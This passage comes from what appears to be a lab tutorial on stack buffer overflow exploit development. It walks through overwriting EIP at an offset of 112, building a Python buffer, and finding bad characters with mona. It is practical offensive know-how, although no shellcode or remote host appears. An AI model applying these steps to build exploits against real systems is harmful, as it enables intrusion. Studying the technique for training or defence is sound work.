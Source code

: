 Note the EIP offset (112) and any other registers that point to the pattern, noting their offsets as well. It seems like the ESP register points to the last 484 bytes of the pattern, which is enough space for our shellcode.

Create a new buffer using this information to ensure that we can control EIP:


    prefix = ""
    offset = 112
    overflow = "A" * offset
    retn = "BBBB"
    padding = ""
    payload = "C" * (600-112-4)
    postfix = ""
    
    buffer = prefix + overflow + retn + padding + payload + postfix

Crash the application using this buffer, and make sure that EIP is overwritten by B's (\\x42) and that the ESP register points to the start of the C's (\\x43).

Finding Bad Characters
======================
Common bad chars: \\x00 (NULL byte), \\x0A, \\x0D, bad chars often corrupt the next byte after them so just take the first one in a sequence of 2!   

Generate a bytearray using mona, and exclude the null byte (\\x00) by default. Note the location of the bytearray.bin file that is generated.


    !mona bytearray -b "\x00"

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \\x01 to \\xff:


    #!/usr/bin/env python
    from __future__ import print_function

    for x in range(1, 256):
        print("\\x" + "{:02x}".format(x), end='')

    print()

Put the string of bad chars before the C's in your buffer, and adjust the number of C's to compensate:


    badchars = "\x01\x02\x03\x04\x05...\xfb\xfc\xfd\xfe\xff"
    payload = badchars + "C" * (600-112-4-255)

Crash the application using this buffer, and make a note of the address to which ESP points. This can change every time you crash the application, so get into the habit of copying it from the register each time.

Use the mona compare command to reference the bytearray you generated, and the address to which ESP points:


    !mona compare -f C:\mona\appname\bytearray.bin -a <address>

Find a Jump Point
=================
